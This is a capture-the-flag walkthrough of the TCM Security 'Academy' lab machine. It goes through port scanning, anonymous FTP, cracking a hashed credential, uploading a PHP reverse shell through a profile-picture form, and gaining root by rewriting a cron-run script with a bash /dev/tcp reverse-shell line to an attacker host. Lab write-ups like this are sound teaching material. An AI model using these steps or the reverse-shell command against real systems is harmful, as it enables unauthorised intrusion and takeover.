




# Academy

[TOC]

## Introduction

This Academy Machine was especially developed for the TCM Security Course. Here we are going to get a foothold as one user, escalate to another user and finally escalate to root.

## Enumeration

First we need to find out the IP Address of the target which is sitting in our network.

We can use nmap or netdiscover or fping to perform this task. In our case we are going to use netdiscover:

```
netdiscover -r 192.168.126.0/24
```

Great! According to the results we should

Let us start by performing an nmap scan on the target machine in order to know what services it is hosting.

```bash
nmap 192.168.126.133 -p- -T4 -A
```

> PORT   STATE SERVICE VERSION
> 21/tcp open  ftp     **vsftpd 3.0.3**
> | ftp-anon: **Anonymous FTP login allowed** (FTP code 230)
> |_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
> | ftp-syst: 
> |   STAT: 
> | FTP server status:
> |      Connected to ::ffff:192.168.126.129
> |      Logged in as ftp
> |      TYPE: ASCII
> |      No session bandwidth limit
> |      Session timeout in seconds is 300
> |      Control connection is plain text
> |      Data connections will be plain text
> |      At session startup, client count was 4
> |      vsFTPd 3.0.3 - secure, fast, stable
> |_End of status
> 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
> | ssh-hostkey: 
> |   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
> |   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
> |_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
> 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
> |_http-title: Apache2 Debian Default Page: It works
> |_http-server-header: Apache/2.4.38 (Debian)
> Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

For the task at hand we are going to focus on the 3 services above:

- HTTP on port 80
- FTP on port 21
- SSH on port 22

On this note this scan already provides us with some useful information.

## FTP Enumeration

We already know from the nmmap scan the version of FTP and that it allows anonymous login.

```
ftp 192.168.126.133
```

We can login anonymously with the `anonymous` usernamme and a blank password. Afterwards we can see tthath there is a note.txt file for us to download and inspect.




Great, now we know a pair of credentials: 

> 10201321:cd73502828457d15655bbd7a63fb0bc8

This password is probably a hash so let's try to decrypt it using an online tool.


## HTTP Enumeration

For HTTP Enumeration we are going to use:

1. Wappalyzer
3. Gobuster
4. Nikto

### Wappalyzer

Wappalyzer is a technology profiler tool used to identify the technologies and software being used on a website or web application. It provides information about the content management systems (CMS), e-commerce platforms, web servers, programming languages, analytics tools, and various other technologies employed by a website.

Therefore, by using this application which I as Firefox extension I was able to start the web server enumeration process by retrieving some useful information, such as, the OS and type of Web Server, Programming Language and extensions in use.



### Gobuster

On top of Wappalyzer I also used Gobuster, a web directory and file enumeration tool used for discovering hidden files and directories on a web server. 

From this point I opened some resources that I was able to discover using this tool and a couple of interesting findings are listed below.




- /academy
- /phpmyadmin

### Nikto

Nikto is an open-source web vulnerability scanner that is widely used for security assessments and penetration testing of web servers. It is designed to identify potential vulnerabilities and misconfigurations in web applications.




### Academy and Gaining a Foothold

After inspecting the /academy directory we enter a website where we are faced by a login prompt. If we recall we have a password we collected from earlier. We can login using the credential pair: `10201321:student`.


After logging in, there is are not many things we can do from this point, except one thing which pikes my interest. We are able to upload files to modify our profile picture. Let us try to inject a .php file which a reverse shell payload. We already know from the enumeration we have done above that one technology supported by the web server is indeed PHP.


We can use a popular reveerse shell fromm PentestMonkey on Github.

Before uploading our shell let start a netcat listener on the designated port we typed on the script.

```
nc -lnvp 4444
```

Great! Now leet's try to upload our script. We did it! We are able to upload our shell successfully.

If we inspect our listener we can see we automatically got a shell since our payload was executed when the page tried to load the image.


Now that we have gained a foothold let's try to enumerate the machine. 

We can see from the /etc/passwd file that there is a grimmie user. If we access its home directory we find a backup.sh file. After a bit of enumeration trying to take advantage of some common PrivEsc vectors I decided to run linpeas.sh.

I was able to find this password.


and this information:


Now we have SSH open so we might as well try to login using this password as the user grimmie in SSH.

We did it!


### Root Privilege Escalation

One of the findings we saw earlier was the fact that backup.sh is a scheduled task that runs repeatedly.

This information can be read from thee /etc/crontab file. Alternatively we can also see that this script is being called every minute by using the tool pspy64.

Great! Knowing this information  all we have to do is change the content of this file to spawn a reveerse shell in bash. This can be easily accomplished with the code below:

```
#!/bin/bash
bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
```

Start a netcat listener on your attack box and just wait till you get a shell as root!
